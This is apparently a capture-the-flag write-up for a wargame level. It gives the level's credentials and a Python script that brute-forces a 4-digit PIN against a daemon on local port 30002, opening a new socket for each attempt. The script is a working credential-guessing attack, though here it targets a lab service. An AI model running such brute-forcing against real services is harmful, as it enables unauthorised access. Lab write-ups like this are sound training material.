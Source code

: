 # username
bandit24
# password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
# objective
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
# method of solve
We will write a Python script that brute forces the 4-digit PIN code:
```
#!/usr/bin/env python3
import socket
import sys

def brute_force():
    password = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
    
    for pincode in range(0, 10000):
        try:
            # Create NEW connection for each attempt
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(2)  # 2-second timeout
                s.connect(("127.0.0.1", 30002))
                
                # Read welcome message (optional)
                welcome_msg = s.recv(2048).decode()
                print(f"Trying {pincode:04d}", end='\r', flush=True)
                
                # Send attempt
                message = f"{password} {pincode:04d}\n"
                s.sendall(message.encode())
                
                # Get response
                response = s.recv(1024).decode()
                
                if "Wrong" not in response:
                    print(f"\nSuccess! PIN: {pincode:04d}")
                    print("Response:", response)
                    return True
                    
        except socket.timeout:
            print(f"\nTimeout on PIN {pincode:04d}, retrying...")
            continue
        except Exception as e:
            print(f"\nError on PIN {pincode:04d}: {str(e)}")
            continue
    
    return False

if __name__ == "__main__":
    if brute_force():
        sys.exit(0)
    else:
        print("\nFailed to find correct PIN")
        sys.exit(1)

```
